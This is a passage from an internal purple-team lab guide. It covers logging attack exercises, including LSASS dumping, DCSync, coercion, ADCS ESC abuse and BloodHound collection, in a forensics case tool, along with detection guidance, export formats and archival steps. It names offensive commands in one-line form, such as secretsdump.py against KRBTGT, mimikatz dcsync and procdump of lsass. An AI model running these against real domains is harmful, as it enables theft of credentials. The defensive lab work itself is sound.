2. Sigma rule ROI: a high negative-test rate proves the rule isn't drowning analysts in noise
3. Future agents need context — "this branch was tried and failed, prefer X instead"
4. Compliance reviewers want to see the *full* attack surface tested, not just successful branches

---

## Tracker fill example (concrete)

After running 3.5F end-to-end, this is what fills into `tracker.md`:

```python
# Get the tracker fields from DFIR-Nexus output
from dfir_nexus.case import CaseManager
mgr = CaseManager("./data/cases.db")
case = mgr.get_case("case-a1b2c3")

print(f"campaign_ref: 3.5F")
print(f"wt_id: (spine)")
print(f"attack_utc: 2026-06-23T14:22:00Z")
print(f"host: {case.findings[0].host}")          # mbr01
print(f"user: {case.findings[0].user}")          # SYSTEM
print(f"primary_source: Endpoint.process (Sysmon 10)")
print(f"corroboration: WinSec 4656, .dmp file create, Zeek N/A")
print(f"dfir_case_id: {case.id}")                 # case-a1b2c3
print(f"evidence_bundle: ~/cadre-evidence/3.5F-20260623/")
print(f"sigma_template: T1003.001 (12 inline templates shipped)")
print(f"status: ✅")
print(f"notes: Procdump -ma lsass.exe via GodPotato → SYSTEM. Hash cracked in 4h via hashcat -m 1000.")
```

The exact row added to `docs/internal/plan01-telemetry-catalog/phase1-source-matrix/tracker.md`:

```markdown
| 3.5F | 2026-06-23T14:22:00Z | Endpoint.process | case-a1b2c3 | ~/cadre-evidence/3.5F-20260623/ | row-237 | ✅ | LSASS procdump, hash cracked |
```

**Tip:** keep the `evidence_bundle` path identical to what's in `~/cadre-evidence/...` so DFIR-Nexus can re-ingest the bundle later if you need to rerun analysis or add another source.

---

## Exercise tracker (fill as you run)

| campaign_ref | attack_utc | primary_source | dfir_case_id | evidence_bundle | tracker_row | status | notes |
|:-------------|:-----------|:---------------|:-------------|:------------------|:------------|:-------|:------|
| P1-WT003 | | | | | | ⏳ | AS-REP intern_blue |
| P2-WT002 | | | | | | ⏳ | Kerberoast via ACE#18 |
| P3-WT043 | | | | | | ⏳ | xp_cmdshell + GodPotato |
| 3.5F | | | | | | ⏳ | LSASS procdump |
| 3.5A | | | | | | ⏳ | Winlogon registry |
| 3.5I | | | | | | ❌ | Token impersonation fail |
| 3.5B | | | | | | ⏳ | schtasks as analyst_cloud |
| 3.5C | | | | | | ⏳ | RDP Type 10 |
| 3.5G | | | | | | ⏳ | Nemesis DPAPI |
| 3.5H | | | | | | ⏳ | ctfmon dump |
| 3.5J | | | | | | ⏳ | WMI persistence |
| 3.5K | | | | | | ⏳ | WerFault LSASS |

---

## Forward look — Phases 4–8 (DFIR guidance)

DFIR-Nexus B.0 → E.0 is feature-complete. Each upcoming phase has a known DFIR playbook already wired — open the listed MCP tools when the campaign gets there.

### Phase 4 — BloodHound as `analyst_cloud` (Discovery)

**Attack:** `SharpHound.exe -c all` (or `bloodhound-python` from Kali) → produces ZIP of JSON files.

**DFIR focus:**
- **Endpoint telemetry:** SharpHound is a known-bad binary → `triage_check_hash(sha256)` will return SUSPICIOUS or UNKNOWN (not in known-good baseline). Use that as the **positive control** for triage DB accuracy.
- **Process chain:** Endpoint `process` events show SharpHound's `LDAP` queries (4662 events with `DS-Replication-Get-Changes-All` if elevated) and child processes (`nslookup`, `net.exe`).
- **Ingestion:** `ingest_from_source(path=..., source_name="bloodhound")` — DFIR-Nexus has a BloodHound importer that turns the ZIP into entity nodes for the case evidence graph.
- **Knowledge graph:** `case_knowledge_graph(case_id=...)` renders the resulting entity graph; useful for confirming Phase 5+ paths visually.

```python
from dfir_nexus.case import CaseManager, FindingSeverity
mgr = CaseManager("./data/cases.db")
case = mgr.create_case(name='P4 — SharpHound collection as analyst_cloud', priority='high')
# Triage check on the SharpHound binary
import asyncio
from dfir_nexus.triage import TriageEngine
verdict = TriageEngine().check_hash(sha256='<sharpHound_sha256>')
print(f"SharpHound triage: {verdict.verdict}")  # expect SUSPICIOUS / UNKNOWN
mgr.add_finding(
    case_id=case.id, title='SharpHound discovery run',
    technique_id='T1087.002', severity=FindingSeverity.MEDIUM,
    host='mbr01', user='analyst_cloud',
    description=f'{len(bh_zip_entries)} collection JSONs; triage={verdict.verdict}',
)
```

### Phase 5 — Coercion + unconstrained/RBCD delegation

**Attack:** `PetitPotam`, `PrinterBug`, `DFSCoerce`, or UnCanny (gated on Developer Mode) → trigger machine account authentication → relay to LDAP → RBCD write.

**DFIR focus:**
- **Network:** Suricata `cadre-coercion.rules` (SID 1000050–1000053) + Zeek `dce_rpc` for MS-RPRN/MS-EFSR/MS-DFSNM. Coercer output → ingest as `coercer` source.
- **TI fanout:** relay IPs / usernames through `ti_fanout` — most are infrastructure, but the target machine account may show up in abuse.ch.
- **Velociraptor hunt:** `vr_run_hunt(hunt_id="cadre-network-state", client_id="C.mbr01")` → catches unusual outbound auth from mbr01.
- **Actor matching:** `mitre_match_actors(technique_ids=["T1187","T1558.003"])` → likely `cadre-default-ad` overlap.

```python
# Suricata SID 1000050 = MS-RPRN PrinterBug detection (confirmed working in lab)
# Bundle: ~/cadre-evidence/5-coerce-YYYYMMDD/
#   suricata-eve-coerce.json (filtered to alert.signature_id:1000050)
#   coercer-output.json (Coercer v2.4.3 stdout)
#   velociraptor-mbr01-network.json
from dfir_nexus.case import CaseManager, FindingSeverity
from dfir_nexus.mitre import match_actors
mgr = CaseManager("./data/cases.db")
case = mgr.create_case(name='P5 — MS-RPRN coercion to dc01', priority='high')
mgr.add_finding(case_id=case.id, title='MS-RPRN coercion (PrinterBug)',
    technique_id='T1187', severity=FindingSeverity.HIGH,
    host='mbr01', user='SYSTEM',
    iocs=[{'type':'ip','value':'<dc01_ip>'}, {'type':'named_pipe','value':'\\PIPE\\spoolss'}],
)
print(match_actors(technique_ids=['T1187','T1558.003','T1003.001']))
# Likely: [{'actor_id':'cadre-default-ad','overlap_count':3,'score':0.85}, ...]
```

### Phase 6 — DCSync (WT009)

**Attack:** `secretsdump.py cadre.local/Administrator@dc01 -just-dc-user KRBTGT` (or via `mimikatz lsadump::dcsync`).

**DFIR focus:**
- **WinSec 4662** on dc01: `ObjectServer:DS` + `ObjectType:user` + `AccessMask:0x100` (Replicating Directory Changes). This is the **canonical** detection — set up the rule first, then attack.
- **Suricata SID 1000002** (DCSync) + **Zeek kerberos.log** AS-REQ for `krbtgt` (sometimes seen as a pre-cursor).
- **RBA scoring:** `mitre_rba_score(technique_ids=["T1003.006"], ioc_count=3)` should land in `critical` tier.
- **Case sensitivity:** this is the moment you should set a case approval password — DCSync is sensitive enough that auto-approve is unsafe.

```python
from dfir_nexus.case import CaseManager, FindingSeverity, ApprovalState
mgr = CaseManager("./data/cases.db")
case = mgr.create_case(name='P6 — DCSync KRBTGT (WT009)', priority='critical')
# Enable HITL for this case
mgr.set_case_approval_password(case.id, password='<rotated-strong-password>')
mgr.add_finding(
    case_id=case.id,
    title='DCSync against KRBTGT',
    technique_id='T1003.006', severity=FindingSeverity.CRITICAL,
    host='dc01', user='Administrator',
    iocs=[{'type':'hash','value':'<krbtgt_rc4>'}],
    description='secretsdump.py with -just-dc-user; KRBTGT hash extracted. ROTATE 2x.',
    initial_state=ApprovalState.DRAFT,  # explicit DRAFT
)
# Score the case
from dfir_nexus.mitre import create_rba_scorer
scorer = create_rba_scorer()
print(scorer.score(technique_ids=['T1003.006'], malicious_ioc_count=3, high_severity_artifact_count=2))
# RBAScore(score=95, tier='critical', factors=[...])
```

### Phase 7 — ADCS ESC1-ESC8 (Branch B)

**Attack:** Certify / Certipy → ESC1 (enrollee supplies SAN), ESC6 (EDITF_ATTRIBUTESUBJECTALTNAME2), ESC8 (NTLM relay to web enrollment).

**DFIR focus:**
- **4662** on ca01 with `ObjectType:certTemplate` — template enumeration
- **4876/4880** (cert issuance events)
- **ADCS artifact:** Velociraptor hunt `cadre-adcs-snapshot` (artifact `CADRE.Hunts.ADCSSnapshot`) captures CA database + template config — golden for after-action.
- **TI:** ESC8 relay IPs → `ti_lookup(providers=["otx","virustotal"])` — sometimes flagged as pentest infra.

```python
# After ESC1 exploit succeeds:
vr_run_hunt(hunt_id='cadre-adcs-snapshot', client_id='C.dc01')  # collect CA snapshot
# Ingest ADCS artifact for case evidence
from dfir_nexus.vr import create_vr_service
svc = create_vr_service()
result = svc.run_hunt(hunt_id='cadre-adcs-snapshot', client_id='C.dc01')
print(f'{len(result.rows)} rows from CADRE.Hunts.ADCSSnapshot')
```

### Phase 8 — Forest trust + cross-forest

**Attack:** SID injection across cadre.local ↔ range.local trust (when SID filtering is OFF, which is the lab default — see CAMPAIGNS Phase 8).

**DFIR focus:**
- **4662** across both DCs (cross-domain lookups)
- **4769** (TGS) with `ServiceName:krbtgt/RANGE` for cross-realm tickets
- **Golden dMSA / KDS root key** attacks (Campaign_suggestions #84–89) — entirely host-side, no network signature; rely on WinSec + Sysmon file access for the `NTDS.dit` dump side
- **Trust direction display:** `case_knowledge_graph` will show the trust edge between the two forests naturally

### Network-defense (E) and supply-chain (F) campaigns

- **E (WT069–081, multi-source network analysis):** ingest all sources simultaneously (Suricata + Zeek + Endpoint + Sysmon), run `analyze_correlate(time_window_seconds=600)`, then `analyze_detect_beacons(min_count=3)`. Export the case as swimlane SVG for visual review.
- **F (npm supply-chain emulation):** `ingest_from_source(path=..., source_name="npm_audit")` + Zeek http.log for the webhook exfil. The DFIR-Nexus audit chain entries prove the test was conducted (compliance requirement for some red-team engagements).

---

## Export decision matrix (which format, when)

`case_export` produces 12 formats. Don't pick randomly — match the format to the audience:

| Audience | Format | Why |
|:---------|:-------|:----|
| **Your own notes** | JSON | Round-trippable, grep-friendly, smallest |
| **Daily standup / Slack update** | Markdown | Pastes cleanly into chat / PRs / Notion |
| **Mid-phase review meeting** | HTML | Styled report with audit pass/fail badges, open in browser |
| **Sigma rule seeding** | IoC blocklist CSV/TXT | Direct ingest into Elastic / Splunk / Defender |
| **Threat intel sharing** | STIX 2.0 | MISP / OpenCTI / ThreatConnect ingest |
| **Excel pivot for triage** | CSV (findings or timeline) | Pivot tables, formulas |
| **Visual review** | Swimlane SVG / Asset graph SVG | Paste into PR / wiki, render in browser |
| **Long-term preservation** | ZIP (with redacted=false) | Frozen archive with attachments + audit log |
| **Compliance / formal report** | DOCX | Word, edit + sign + send to legal |
| **Evidence preservation** | Snapshot | Frozen JSON bundle, deterministic ordering, hash-stable |

**Concrete example — end-of-Phase 3 handoff:**

```python
from dfir_nexus.case import CaseManager
from dfir_nexus.integration.case_export import CaseExporter
from dfir_nexus.integration.export_formats import export_ioc_blocklist, export_swimlane_svg

mgr = CaseManager("./data/cases.db")
case = mgr.get_case("case-3-spine")
exporter = CaseExporter(case_id=case.id)
bundle = exporter.build_bundle()

# 1. Daily standup
exporter.export_to_markdown("/share/standup/case-3-spine.md")

# 2. Sigma rule seed (push IoCs to SIEM)
with open("/share/iocs/case-3-spine.txt", "w") as f:
    f.write(export_ioc_blocklist(bundle, fmt="txt"))

# 3. Visual review (paste into wiki)
with open("/share/visuals/case-3-spine-timeline.svg", "w") as f:
    f.write(export_swimlane_svg(bundle))

# 4. Threat intel share (upload to MISP)
exporter.export_to_stix("/share/stix/case-3-spine.stix.json")

# 5. Long-term preservation
from dfir_nexus.integration.export_formats import export_case_zip
with open("/share/archive/case-3-spine.zip", "wb") as f:
    f.write(export_case_zip(bundle, include_redacted=False))
```

---

## Case archival & close (end-of-phase / end-of-campaign)

When a phase completes (or when the campaign winds down), each case needs explicit closure so the audit chain is locked and the case is preserved.

```python
from dfir_nexus.case import CaseManager
mgr = CaseManager("./data/cases.db")

# 1. Verify audit chain is intact (this is your proof of non-tampering)
ok, errors = mgr.verify_audit_chain("case-3-spine")
assert ok, f"Audit chain broken: {errors}"

# 2. Verify across ALL cases for the campaign (loop over list_cases)
for case in mgr.list_cases():
    ok, errors = mgr.verify_audit_chain(case.id)
    print(f'{case.id}: valid={ok} entries={len(mgr.get_audit_log(case.id))}  errors={errors}')

# 3. Generate the final report bundle (multi-format)
exporter = CaseExporter(case_id="case-3-spine")
exporter.export_to_markdown("/share/final/case-3-spine.md")
exporter.export_to_html("/share/final/case-3-spine.html")
exporter.export_to_docx("/share/final/case-3-spine.docx")

# 4. Snapshot for evidence preservation
from dfir_nexus.integration.export_formats import export_investigation_snapshot
with open("/share/final/case-3-spine.snapshot.json", "w") as f:
    f.write(export_investigation_snapshot(exporter.build_bundle()))

# 5. Close the case (locks the audit chain with a final entry)
# Python API uses `closed_by`; for a free-text reason, use the MCP tool `case_close(case_id, reason=...)`
mgr.close_case("case-3-spine", closed_by="examiner")
# Or via MCP: mcp.call("case_close", case_id="case-3-spine", reason="Phase 3 complete; creds rotated; SIEM rules deployed")

# 6. Disk hygiene: archive the source bundle to long-term storage
import shutil
shutil.make_archive(
    f"/archive/cadre-2026-phase3-{campaign_ref}",
    "gpg",
    root_dir="~/cadre-evidence/3-spine-20260623/",
)
```

**Archival checklist (run before closing each phase):**

- [ ] `verify_audit_chain(case_id)` returns `(True, [])`
- [ ] Loop over `mgr.list_cases()` and `verify_audit_chain` each — all valid
- [ ] Markdown + HTML + DOCX exports written to `/share/final/`
- [ ] IoC blocklist pushed to SIEM (Splunk/Elastic/Defender)
- [ ] STIX bundle uploaded to MISP/OpenCTI (when applicable)
- [ ] ZIP archive of evidence bundle stored in long-term cold storage
- [ ] `tracker.md` row status updated to `✅` with `dfir_case_id` filled
- [ ] `mgr.close_case(case_id, closed_by=...)` (Python) or MCP `case_close(reason=...)` called for every case in the phase

**Don't:**
- Don't delete `~/cadre-evidence/...` until at least one phase after the phase that produced it has completed and reviewed it
- Don't close a case before all DRAFT findings are approved (or explicitly rejected)
- Don't rotate the audit secret mid-phase — case chains across the rotation boundary will fail to verify

## Related docs

| Doc | Role |
|:----|:-----|
| [`CAMPAIGNS.md`](CAMPAIGNS.md) | Attack narrative and commands |
| [`CAMPAIGNS-METADATA.md`](CAMPAIGNS-METADATA.md) | Per-attack playbook refs and telemetry |
| [`Campaign_suggestions.md`](Campaign_suggestions.md) | Research → campaign promotion |
| [`tools/dfir-nexus/docs/SUMMARY.md`](../../tools/dfir-nexus/docs/SUMMARY.md) | One-page feature list (read first) |
| [`tools/dfir-nexus/docs/USAGE-GUIDE.md`](../../tools/dfir-nexus/docs/USAGE-GUIDE.md) | Install + first-run + walkthroughs (start here) |
| [`tools/dfir-nexus/docs/E0-CONSTELLATION.md`](../../tools/dfir-nexus/docs/E0-CONSTELLATION.md) | Push, extension, exports, hardening (v1.0.0) |
| [`tools/dfir-nexus/docs/D0-STELLAR.md`](../../tools/dfir-nexus/docs/D0-STELLAR.md) | TI, Velociraptor, MITRE/RBA |
| [`tools/dfir-nexus/docs/DATA.md`](../../tools/dfir-nexus/docs/DATA.md) | Production RAG + triage download |
| [`tools/dfir-nexus/docs/C0-VOYAGER.md`](../../tools/dfir-nexus/docs/C0-VOYAGER.md) | C.0 RAG, triage, GraphRAG, deobfuscation |
| [`tools/dfir-nexus/docs/B0-PATHFINDER.md`](../../tools/dfir-nexus/docs/B0-PATHFINDER.md) | Gateway, Portal, LangGraph agents |
| [`tools/dfir-nexus/docs/STUDY-GUIDE.md`](../../tools/dfir-nexus/docs/STUDY-GUIDE.md) | Full tool reference (every MCP tool, every module) |
| [`docs/internal/integrations/dfir-nexus.md`](../../docs/internal/integrations/dfir-nexus.md) | CADRE integration 1-pager |
| [`docs/forensic-workflow.md`](../../docs/forensic-workflow.md) | Lab forensic tooling overview |
| `docs/internal/plan01-telemetry-catalog/phase1-source-matrix/tracker.md` | PRIMARY source matrix (Plan 1) |

---

*Last updated: 2026-06-23 — DFIR-Nexus v1.0.0 E.0 Constellation (496 pytest, 72 smoke, USAGE-GUIDE.md published)*